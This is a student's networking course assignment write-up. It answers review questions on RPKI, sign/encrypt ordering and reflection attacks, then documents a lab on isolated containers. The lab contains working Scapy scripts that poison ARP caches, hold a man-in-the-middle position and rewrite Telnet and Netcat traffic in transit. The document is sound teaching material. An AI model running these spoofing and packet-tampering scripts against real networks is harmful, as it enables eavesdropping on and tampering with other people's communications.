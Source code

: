 = BGP, Signed and Encrypted e-mail, and ARP Spoofing
Harsh Gaurang Kapadia <harshk@bu.edu>
:toc:					left
:favicon:				../../../../favicon.ico
:imagesdir:				./arp-spoofing
:docinfo:				shared
:sectanchors:
:figure-caption!:

> Harsh Gaurang Kapadia
>
> harshk@bu.edu
>
> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/e-mail-arp-bgp.html[Assignment Questions^]

== 1 Review Questions

=== 1.1 RPKI

RPKI consists of cryptographically signing the IP range of a particular Autonomous System (AS). Every AS creates a Route Authorization Object (ROA) which contains the AS Number (ASN), the IP range they can advertise and the extent to which the AS is allowed to announce more specific routes. This ROA is then signed by a chain of trust which includes IANA, the RIRs, ISPs and LSPs (Local Service Providers).

Any AS can advertise a particular IP prefix, but if their ROA is not valid, then the advertisement is dropped by other ASes. Advertisements can be valid only if the origin prefix advertising AS actually owns the IPs (which is validated by ROAs), because the RIRs and other authorities make sure that the prefix is allocated to that AS before signing the ROA. Thus, if a rogue AS advertises a prefix that doesn't belong to it or is more specific than it is allowed to advertise, then it won't have a valid ROA, which will make the other ASes drop that advertisement. This prevents Sub-Prefix Hijacking.

RPKI doesn't validate/authenticate the path taken by an advertisement. It only validates the IP prefix advertised by the origin AS. A rogue AS can use a valid ROA, add their AS Number to the path and advertise that, which makes the wrongly advertised path look like a shorter path to a few local ASes and they will divert traffic to it due to the shorter AS path length (the ROA in the two advertisements is the same, so the prefix specific rule will not apply). Thus, RPKI does not prevent the One-Hop Attack.

=== 1.2 Encrypt and Sign vs Sign and Encrypt

Attacks possible when one encrypts and then signs:
The receiver of the ciphertext and signature can remove the signature, attach their own signature and then send the ciphertext and signature to someone else, claiming that the message came from them.

Attacks possible when one signs and then encrypts:
Once the receiver has decrypted the ciphertext, they can encrypt the decrypted message data and signature under another sender's public key and then send it to them, claiming that the original sender sent them a message to carry out a particular action.

=== 1.3 Reflection Attacks

Reflection Attacks are more powerful than typical Denial of Service (DoS) Attacks as they make the use of another service in the middle to send out responses to the victim servers for them. This helps in two ways. Not only does it help in masking the real attacker's IP address, but it also helps in using more powerful machines which might have larger responses (targeted at the victim servers) than requests (Amplification Attack) and the attacker might not be able to generate a lot of responses of those sizes due to a limit in their bandwidth. Reflection attacks also help an attacker who does not have a lot of resources to attack servers by making use of exploitable services and protocols such as DNS and NTP.

Protocols like DNS and NTP have debug commands that generate responses that are larger than requests. This is an Amplification Attack. These protocols run on UDP (which can be spoofed easily) and also respond to anyone asking them for this information (no authentication). The attacker just has to spoof a lot of UDP packets with the source IP as the victim servers' IP addresses and the open DNS and NTP services will flood the victims with loads of huge responses, causing them to get overwhelmed.

== Signed and Encrypted e-mail

e-mail secret phrase: `lime hub stadium`

To start with sending an encrypted e-mail, I first decided upon a plan to send the e-mail. I decided that I would need two keypairs, one for someone to encrypt a message to me and one for me to sign messages to send to someone.

I then started learning about how I could go about encrypting and signing. I knew about OpenSSL and I had heard of PGP, so I first went and learnt about PGP, OpenPGP and GPG. I learnt about keypairs, how to generate secure keys, how to add images to keys, subkeys, key expirations and renewals, etc.

I was then confused between using OpenSSL and GPG, but after looking at the OpenSSL process, I went with GPG as it seemed simpler. I also decided to generate just one keypair for both encryption and signing, to make things simpler for me.

I generated a PGP keypair using GPG on the command line. I added link:https://cs-people.bu.edu/kaptchuk[Gabe^]'s public PGP key to my GPG command line tool. I then encrypted my message to Gabe using his public key and signed it using my key.

To send an e-mail to Gabe, I just pasted the ciphertext and my public PGP key in Gmail and sent it to him.

link:https://networking.harshkapadia.me/cryptography#pgp[My learnings on PGP and the articles I went through^]

== ARP Spoofing

> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/arp-spoofing/README[All files^]

* Machine A
    ** IP address: `10.9.0.5`
    ** MAC address: `02:42:0a:09:00:05`
* Machine B
	** IP address: `10.9.0.6`
    ** MAC address: `02:42:0a:09:00:06`
* Attacker machine M
    ** IP address: `10.9.0.105`
    ** MAC address: `02:42:0a:09:00:69`

=== Task 1

==== Task 1A

image::1/1a/1a.png[]

Machine A accepted the ARP request packet with B's IP address and M's MAC address.

Machine A accepted the ARP request packet because it was a packet destined to it and it needs to reply to the query, so it needs to store who asked the question, to be able to send the ARP reply to it.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "02:42:0a:09:00:05"

arp = ARP()
arp.op = 1 # ARP Request
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "02:42:0a:09:00:05"
arp.pdst = "10.9.0.5"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

==== Task 1B

image::1/1b/1b.png[]

Machine A did not accept the ARP reply packet with B's IP address and M's MAC address because it never sent an ARP request asking for B's MAC address.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "02:42:0a:09:00:05"

arp = ARP()
arp.op = 2 # ARP Reply
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "02:42:0a:09:00:05"
arp.pdst = "10.9.0.5"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

==== Task 1C

image::1/1c/1c.png[]

The first `arp -n` command is to showcase the mapping that already existed for machine B in machine A. The second command is after a Gratuitous ARP request was sent and it did update machine A, but due to the MAC values being the same, it was not easy to prove, so for the third command, the MAC value was tweaked in the Gratuitous ARP request packet for show purposes.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "ff:ff:ff:ff:ff:ff"

arp = ARP()
arp.op = 1 # ARP Request
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "ff:ff:ff:ff:ff:ff"
arp.pdst = "10.9.0.6"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

=== Task 2 Telnet

==== Task 2.1

The following code block will send ARP requests to machines A and B from machine M every two seconds, to maintain the ARP Spoofing.

[source, python]
----
from scapy.all import *
import time

MAC_A = "02:42:0a:09:00:05"
IP_A = "10.9.0.5"
MAC_B = "02:42:0a:09:00:06"
IP_B = "10.9.0.6"
MAC_M = "02:42:0a:09:00:69"
IP_M = "10.9.0.105"

# Maps B's IP to M's MAC in A
def pkt_to_A():
    ethernet = Ether()
    ethernet.src = MAC_M
    ethernet.dst = MAC_A

    arp = ARP()
    arp.op = 1
    arp.hwsrc = MAC_M
    arp.psrc = IP_B
    arp.hwdst = MAC_A
    arp.pdst = IP_A

    pkt = ethernet / arp
    return pkt

# Maps A's IP to M's MAC in B
def pkt_to_B():
    ethernet = Ether()
    ethernet.src = MAC_M
    ethernet.dst = MAC_B

    arp = ARP()
    arp.op = 1
    arp.hwsrc = MAC_M
    arp.psrc = IP_A
    arp.hwdst = MAC_B
    arp.pdst = IP_B

    pkt = ethernet / arp
    return pkt

# Keep sending these packets to respective hosts to maintain ARP spoof
while(True):
    sendp(pkt_to_A())
    sendp(pkt_to_B())

    time.sleep(2)
----

==== Task 2.2

Both Machine A and B are able to ping each other, but have a very high (> 80%) packet loss.

Before understanding the reason, it is important to note that we have a script (link:#_task_2_1[Task 2.1]) that is maintaining the ARP Spoofing. Now, when the ping is issued, an ARP request is issued to find the MAC address of the receiving host to be able to deliver it packets, if the ARP cache of the sender doesn't already have the required MAC address. If the ARP spoof is maintained, then the issued ARP request reaches attacker machine M and does not get a reply (due to the stoppage in IP forwarding), leading to packet loss. But if the ARP cache of the sender expires, it broadcasts an ARP Request. If the script sending packets in the background is not fast enough, the actual receiver might reply and set the correct value in the ARP cache of the sender, leading to correct packet delivery to the receiver. The script is successful in maintaining the spoof for most of the communication duration, which is why there is a very high (> 80%) packet loss.

> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/arp-spoofing/2/2.2/telnet-2.2.pcapng[Wireshark trace^]

.Machine A
image::2/2.2/2.2-a.png[]

.Machine B
image::2/2.2/2.2-b.png[]

==== Task 2.3

Both Machine A and B are able to ping each other without any packet loss.

There is no packet loss because the attacker machine M acts as a IP forwarding machine due to the functionality being enabled. If the script (link:#_task_2_1[Task 2.1]) is not able to maintain the spoof, then the correct mapping is generated, which allows correct communication. So be it spoofing or not, the packet gets delivered. Only in the case of spoofing, the attacker machine M can snoop on user data.

> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/arp-spoofing/2/2.3/telnet-2.3.pcapng[Wireshark trace^]

.Machine A
image::2/2.3/2.3-a.png[]

.Machine B
image::2/2.3/2.3-b.png[]

==== Task 2.4

As seen in the Machine A image below, the connection is established with IP forwarding enabled on attacker machine M and a test command `whoami` is fired, which succeeds. Then, IP forwarding is disabled on machine M and the Python script (in code block below) to modify the data is started. Further communication is all modified, until the aforementioned script is stopped and the IP forwarding is enabled once again (the last `whoami` command).

.Machine A
image::2/2.4/2.4-1.png[]

image::2/2.4/2.4-2.png[]

.Attacker Machine M
image::2/2.4/2.4-3.png[]

Any data that is being sent from machines A to B is modified to `Z`, other than the <kbd>Enter</kbd> key (so that data can be sent to machine B), as shown in the code block below:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
IP_M = "10.9.0.105"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(frame):
    if frame[IP].src == IP_A and frame[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.

        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].payload)
        del(new_pkt[TCP].chksum)

        # Construct the new payload based on the old payload.
        if frame[TCP].payload:
            original_data = frame[TCP].payload.load

            if(original_data == b"\r\x00"): # The 'Enter' key
                send(new_pkt/original_data)
            else:
                original_data_len = len(original_data)

                new_data = ""
                for i in range(original_data_len):
                    new_data += "Z"

                send(new_pkt/new_data)
        else:
            send(new_pkt)

    elif frame[IP].src == IP_B and frame[IP].dst == IP_A:
        # Create new packet based on the captured one
        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].chksum)
        send(new_pkt)

def filter_frame(frame):
    if(IP in frame and frame.src != MAC_M):
        return True
    else:
        return False

frame = sniff(iface = "eth0", lfilter = filter_frame, prn = spoof_pkt)
----

=== Task 3 Netcat

==== Task 3.1

Same as link:#_task_2_1[Task 2.1].

==== Task 3.2

When IP forwarding is disabled on the attacker machine M, packets cannot make it through and the sender keeps sending packets to the receiver as it does not get any response. Once the IP forwarding is enabled, only then does the receiver receive the data and display it on its console, as seen in the Machine B image below.

> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/arp-spoofing/3/3.2/telnet-3.2.pcapng[Wireshark trace^]

.Machine A
image::3/3.2/3.2-a.png[]

.Machine B
image::3/3.2/3.2-b.png[]

==== Task 3.3

In this case data reaches machine B from machine A and vice versa. When IP forwarding is enabled on the attacker machine M, it just forwards whatever it receives from A to B and vice versa, acting as an intermediary.

> link:https://networking.harshkapadia.me/files/bu-cas-cs-558/assignments/e-mail-arp-bgp/arp-spoofing/3/3.3/telnet-3.3.pcapng[Wireshark trace^]

.Machine A
image::3/3.3/3.3-a.png[]

.Machine B
image::3/3.3/3.3-b.png[]

==== Task 3.4

Any plaintext data can be modified in ARP Spoofing, so this is what is demonstrated here on the link:https://manpages.org/nc[Netcat protocol^].

When IP forwarding is disabled on attacker machine M and the modifying Python script (in code block below) is run, any data containing a specific string is replaced. This effect is removed only after the script is stopped (as seen in the last line of the output in the Machine B image).

.Machine A
image::3/3.4/3.4-1.png[]

.Machine B
image::3/3.4/3.4-2.png[]

.Attacker Machine M
image::3/3.4/3.4-3.png[]

If data that is being sent from machines A to B contains the string `Harsh Kapadia`, it is modified to `AAAAA AAAAAAA`, as shown in the code block below:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
IP_M = "10.9.0.105"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(frame):
    if frame[IP].src == IP_A and frame[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.

        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].payload)
        del(new_pkt[TCP].chksum)

        # Construct the new payload based on the old payload.
        if frame[TCP].payload:
            original_data = frame[TCP].payload.load

            if(b"Harsh Kapadia" in original_data):
                new_data = original_data.replace(b"Harsh Kapadia", b"AAAAA AAAAAAA")
                send(new_pkt/new_data)
            else:
                send(new_pkt/original_data)
        else:
            send(new_pkt)

    elif frame[IP].src == IP_B and frame[IP].dst == IP_A:
        # Create new packet based on the captured one
        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].chksum)
        send(new_pkt)

def filter_frame(frame):
    if(IP in frame and frame.src != MAC_M):
        return True
    else:
        return False

frame = sniff(iface = "eth0", lfilter = filter_frame, prn = spoof_pkt)
----
